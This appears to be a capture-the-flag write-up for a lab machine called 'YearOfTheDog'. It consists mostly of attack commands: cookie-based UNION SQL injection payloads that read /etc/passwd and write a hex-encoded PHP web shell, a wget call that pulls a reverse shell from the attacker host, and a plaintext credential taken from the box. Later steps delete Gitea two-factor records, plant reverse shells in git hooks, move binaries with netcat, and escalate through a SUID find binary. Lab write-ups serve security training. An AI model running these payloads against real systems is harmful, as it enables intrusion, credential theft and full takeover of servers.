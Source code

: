 # YearOfTheDog

```
Ports:
22
80
```

Nothing interesting found searching directoris, higest ports.
try use sqlmap 

: sqlmap -u http://10.10.11.217/ --dump-all --level 5 --risk 3 --batch
	[02:59:05] [INFO] testing connection to the target URL
	you have not declared cookie(s), while server wants to set it sown('id=5f9d79710af...8d71d695f5').

edit cookie id='
	#response

	HTTP/1.1200OK
	Date:Fri,09Dec202208:00:20GMT
	Server:Apache/2.4.29(Ubuntu)
	Vary:Accept-Encoding
	Content-Length:156
	Connection:close
	Content-Type:text/html;charset=UTF-8

	Error:YouhaveanerrorinyourSQLsyntax;checkthemanualthatcorrespondstoyourMySQLserverversionfortherightsyntaxtousenear'''''atline1

### Payloads

Cookie:id='unionselect1,database()---

Cookie:id='UNIONSELECT1,group_concat(table_name)FROMinformation_schema.tablesWHEREtable_schema=database()---
	Youarenumberqueueinthequeue

Cookie:id='unionselect1,group_concat(column_name)frominformation_schema.columnswheretable_schema=database()---
Cookie:id='unionselect1,group_concat(userID)fromqueue---

nothing really interesting

Try sqlinjection read files

Cookie:id='unionselect1,LOAD_FILE("/var/log/apache2/access.log")---

Cookie:id='unionselect1,LOAD_FILE("/etc/passwd")---
	SUCESS
	dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash

LOADindex.php
	require_once"config.php";

	if(!isset($_COOKIE["id"])){
		$cookie=bin2hex(random_bytes(16));
		$queueNum=rand(1,100);
		setcookie("id",$cookie,NULL,"/");
		
		$sql="INSERTINTOqueueVALUES('".$cookie."',".

UPLOAD FILES in HEX
Cookie:id='unionselect1,0x48656c6c6f20776f726c640aINTOOUTFILE'/var/www/html/test.php'---
	'HelloWorld'

after try convert "php-reverse-shell" in hexa received exceeds server limit
try upload RCE


```
 echo '<?PHP system($_GET["c"];?>' | xxd
 echo '0x3C3F5048502073797374656D28245F4745545B2263225D3B3F3E0A' | xxd -r -p
	<?PHP system($_GET["c"];?>


 echo '0x3C3F5048502073797374656D28245F524551554553545B2263225D3B3F3E0A' | xxd -r -p
 	<?PHP system($_REQUEST["c"];?>

```
Cookie: id='UNION SELECT 1,0x3C3F5048502073797374656D28245F524551554553545B2263225D3B3F3E0A INTO OUTFILE '/var/www/html/funrce.php'-- -


# First Access

http://{ip}/funrce.php?c=wget http://{ip}/reverse.php
http://{ip}/reverse.php


in /home/dylan/ found file with log {work_analysis}
read log found credentials

dylan:Labr4d0rs4L1f3

: ss -ltp
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:44269         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 [::]:http               [::]:*                  LISTEN      -                   
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN      -

tunneling: 
: ssh -L 3000:127.0.0.1:3000 dylan@{ip}

login page with 2FA

dylan@year-of-the-dog:/gitea/gitea$ sqlite3 gitea.db 
	Command 'sqlite3' not found

sqlite3 not instaled, for login and delete "two factor auth" we can use python connect
```
 import sqlite3
 s=sqlite3.connect("gitea.db")
 s.execute("delete from two_factor")
 s.commit()
 s.close()
 exit()
```

we can connect now

find git-hooks and add command line in pre-receive and update with reverse shell

edit README.md and commit changes to gain shell

# in container

: sudo -l

(ALL) NOPASSWORD: ALL

: sudo su root

access /data this directory exist in main system

use netcat to transfer /usr/bin/find to kali machine from dylan machine

nc {ip} 4444 > find
nc {kali@mchine} 4444 < /usr/bin/find 

start python server

in container ##

wget http://{kali}/find
chmod 4755 find  		## suid permission

dylan@machine: ./find . -exec /bin/sh -p\; -quit

root#>
